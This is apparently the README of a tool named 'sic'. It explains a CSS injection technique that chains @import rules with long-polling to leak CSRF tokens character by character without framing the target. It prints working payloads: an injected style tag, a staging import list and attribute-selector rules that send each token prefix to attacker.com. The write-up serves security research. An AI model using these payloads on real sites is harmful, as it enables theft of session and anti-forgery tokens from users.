 # Sequential Import Chaining

Typical CSS injection requires an attacker to load the context a number of times to exfiltrate sensitive tokens from a page. Usually the vector for this is via iframing which isn't always possible, especially if the target is using `x-frame-options: deny` or `x-frame-options: sameorigin`. This can be further complicated if the victim needs to interact with the target to trigger the injection (perhaps due to dynamic behavior on the page).

Sequential import chaining is a technique that enable a quicker, easier, token exfiltration even in the cases where framing isn't possible or the dynamic context is only occasionally realized.

## Prerequisites

This attack only works if the attacker at least one of these: 

* Script tag injection (HTML injection, for example)
* Control of CSS at the top of a style tag.

The first case is probably more likely and will work even if filtered through vanilla DOM Purify.

## Technique

The idea behind CSS injection token exfiltration is simple: You need the browser to evaluate your malicious css once, send an outbound request with the next learned token, and repeat. 

Obviously the "repeat" part is normally done using a full frame reload (iframing, or tabs... blah).

However, we don't actually need to reload the frame to get the browser to reevaluate *new* CSS.

Sequential Import Chaining uses 3 easy steps to trick some browser into performing multiple evaluations:

1. Inject an `@import` rule to the staging payload 
2. Staging payload uses `@import` to begin long-polling for malicious payloads
3. Payloads cause browser to call out using `background-img: url(...)` causing the next long-polled `@import` rule to be generated and returned to the browser.

## Example

Here's an example of what these might look like:

### Payload
`<style>@import url(http://attacker.com/staging);</style>`

### Staging
```
@import url(http://attacker.com/lp?len=0);
@import url(http://attacker.com/lp?len=1);
@import url(http://attacker.com/lp?len=2);
...
@import url(http://attacker.com/lp?len=31); // in the case of a 32 char long token
```

### Long-polled Payload (length 0)
This is a unique, configurable template in `sic` because this part is very context specific to the vulnerable application.
```
input[name=xsrf][value^=a] { background: url(http://attacker.com/exfil?t=a); }
input[name=xsrf][value^=b] { background: url(http://attacker.com/exfil?t=b); }
input[name=xsrf][value^=c] { background: url(http://attacker.com/exfil?t=c); }
...
input[name=xsrf][value^=Z] { background: url(http://attacker.com/exfil?t=Z); }
```

After the browser calls out to `http://attacker.com/exfil?t=<first char of token>`, `sic` records the token, generate the next long-polled payload, and return a response for `http://attacaker.com/lp?len=1`. 

### Long-polled Payload (length 1 - given `s` as first char)
```
input[name=xsrf][value^=sa] { background: url(http://attacker.com/exfil?t=sa); }
input[name=xsrf][value^=sb] { background: url(http://attacker.com/exfil?t=sb); }
input[name=xsrf][value^=sc] { background: url(http://attacker.com/exfil?t=sc); }
...
input[name=xsrf][value^=sZ] { background: url(http://attacker.com/exfil?t=sZ); }
```

This repeats until no more long-polled connections are open.

----

Shoutout to the following hackers for help in one way or another.

* [0xacb](https://twitter.com/0xACB)
* [cache-money](https://twitter.com/itscachemoney)
* [Shubs](https://twitter.com/infosec_au)
* [Sean](https://twitter.com/seanyeoh)
* [Ruby](https://twitter.com/_ruby)
* [vila](https://twitter.com/cgvwzq)
